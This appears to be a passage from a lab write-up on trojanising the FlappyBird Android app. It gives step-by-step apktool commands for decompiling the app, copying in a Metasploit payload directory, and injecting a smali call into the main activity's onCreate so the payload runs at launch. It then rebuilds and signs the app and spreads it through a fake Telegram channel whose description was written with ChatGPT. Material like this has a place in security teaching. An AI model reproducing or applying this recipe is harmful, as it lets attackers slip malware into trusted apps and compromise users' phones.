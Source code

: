 ```apktool d FlappyBird.apk -o app_decoded```
#### AndroidManifest.xml Modifications

**I modified the target application's AndroidManifest.xml to include the necessary permissions for network communication and system access:**
```
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE" />
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
```
Permissions were copied from the payload's AndroidManifest.xml file to ensure full functionality of the injected malicious code.

#### Smali Code Integration

1. **Metasploit folder integration**: Copied the entire com/metasploit/ directory from the payload's decompiled structure to the target application's directory structure.

2. **Activity modification**: By analyzing the AndroidManifest.xml, I identified the main activity as UnityPlayerActivity.
Therefore, I modified the corresponding Smali file (com/unity3d/player/UnityPlayerActivity.smali) by injecting code to trigger the malicious payload during application startup.

The injection point was the onCreate method of the UnityPlayerActivity class, ensuring execution at launch.

```invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V```

This ensures the malicious payload executes immediately when the application launches.

### 5. Application Recompilation and Signing

#### APK Rebuilding

```apktool b app_decoded -o mod.apk```

#### Digital Signature Application

**Since Android requires all applications to be digitally signed, I applied a self-signed certificate:**

```jarsigner -keystore /home/roberto/app/mykey.keystore -storepass qwerty mod.apk myalias```

Note: In a real attack scenario, attackers might use stolen certificates or create convincing fake certificates to avoid detection.

### 6. Social Engineering Distribution

#### Distribution Vector

**The modified APK was distributed through a simulated social engineering campaign using a Telegram channel.**

I easily generated a fake description using ChatGPT and downloaded an image from the official website

![Fake tlegram channel](images/telegram.png)

This demonstrates how attackers commonly distribute malicious applications through:

- Unofficial app stores

```